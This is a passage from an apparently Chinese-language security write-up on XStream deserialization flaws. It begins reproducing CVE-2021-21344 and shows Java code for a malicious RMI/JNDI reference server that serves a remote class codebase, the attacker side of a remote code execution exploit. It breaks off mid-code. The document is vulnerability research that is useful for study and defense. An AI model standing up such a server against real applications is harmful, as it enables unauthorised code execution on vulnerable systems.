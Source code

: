 **总结**  
总而言之，XStream 为 Java 常见的类型提供了不同的转换器，其思路就是通过不同的 converter 来处理序列化数据中不同类型的数据

## 3\. 漏洞汇总

[![](assets/1701612148-376286ee07bd527c30319a4b40e2f0cd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230814212046-60b41f10-3aa5-1.png)  
[![](assets/1701612148-b5e8ea56a1a0369d780735d727b28ffc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230814212104-6b6379f6-3aa5-1.png)  
参考：[https://x-stream.github.io/security.html](https://x-stream.github.io/security.html)

## 4\. CVE-2021-21344

**影响版本**：<=1.4.15  
**测试环境**：XStream1.4.15 jdk1.8\_66  
**复现**：  
继续使用 JNDI 中用到的 RMI Server：

```plain
package JNDI;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class ReferServer {
    public static void main(String[] args) throws Exception{
        Registry registry = LocateRegistry.createRegistry(7777);

        // 创建Reference对象
        Reference reference = new Reference("test", "test", "http://127.0.0.1:8080/");
        // 由于Reference类没有继承Remote接口, 所以需要使用ReferenceWrapper进行封装
        ReferenceWrapper wrapper = new ReferenceWrapper(reference);
```